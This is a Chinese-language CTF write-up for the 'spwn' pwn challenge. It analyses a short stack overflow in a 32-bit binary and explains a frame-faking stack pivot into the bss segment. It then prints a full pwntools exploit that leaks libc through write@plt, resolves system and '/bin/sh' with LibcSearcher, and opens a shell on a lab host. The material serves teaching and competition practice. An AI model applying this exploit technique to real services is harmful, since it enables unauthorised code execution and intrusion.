 ```yaml
---
title: '[pwn] spwn WriteUp'
tags:
  - CTF
  - pwn
  - WriteUp
date: 2019-10-07 00:18:14
categories: CTF
abbrlink: 10070
---
```


这个题来自于[咲夜南梦](https://196011564.github.io/)师傅

## 分析

checksec 一下

![checksec](../pics/20191007000.png)

然后 IDA 静态分析一下

![main](../pics/20191007001.png)

![vul_function](../pics/20191007002.png)

可以看到，在 main 中调用了 vul_function, 而在 vul_function 中有两次读取，第一次读取 0x200 字节到 bss 段，第二次读取到 stack 中

查看一下 stack 中 buf 相对于 ebp 的偏移为 0x18，而第二次读取的长度只有 0x20 所以只能覆盖到 ebp 和 ret addr，由于在栈处能够溢出的字节太少，不足以构造较长的 gadget，又看到第一次往 bss 读取时读取长度很充足，并且程序没有开启 PIE 保护，bss 段是知道地址的，于是考虑能否利用 bss 段实现攻击

注意到在 [CTF Wiki # frame faking](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#frame-faking) 讲到了一种叫做 Frame Faking 的方法，即伪造栈帧，就恰巧是用于溢出字节较少且有其他可控制内存区域的情形的。仔细看完介绍后，大概理解是怎么回事了，利用两次 leave, ret (**函数正常返回一次，溢出控制返回地址指向 leave, ret 再一次**) 实现栈帧伪造。

主要思路有了之后写出漏洞利用脚本就简单了

## exp

```python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *

def leak(func_name, func_addr):
    libc = LibcSearcher(func_name, func_addr)
    libc_base = func_addr - libc.dump(func_name)
    sys_addr = libc_base + libc.dump("system")
    sh_addr = libc_base + libc.dump("str_bin_sh")
    return (sys_addr, sh_addr)

def main():
    elf = ELF("spwn")
    write_plt = elf.plt[b"write"]
    read_got = elf.got[b"read"]
    main_addr = 0x08048513
    leave_ret = 0x08048511
    bss_addr = 0x0804a300
    
    r = remote("192.168.136.129", 9999)
    
    payload = b"a"*4 + p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got) + p32(4)
    r.sendafter("name?", payload)
    
    payload = b"a"*0x18 + p32(bss_addr) + p32(leave_ret)
    r.sendafter("say?", payload)
    
    read_leak = u32(r.recv(4))
    sys_addr, sh_addr = leak("read", read_leak)

    payload = b"a"*4 + p32(sys_addr) + p32(main_addr) + p32(sh_addr)
    r.sendafter("name?", payload)
    
    payload = b"a"*0x18 + p32(bss_addr) + p32(leave_ret)
    r.sendafter("say?", payload)
    
    r.interactive()

if __name__ == "__main__":
    context.log_level = "debug"
    main()

```

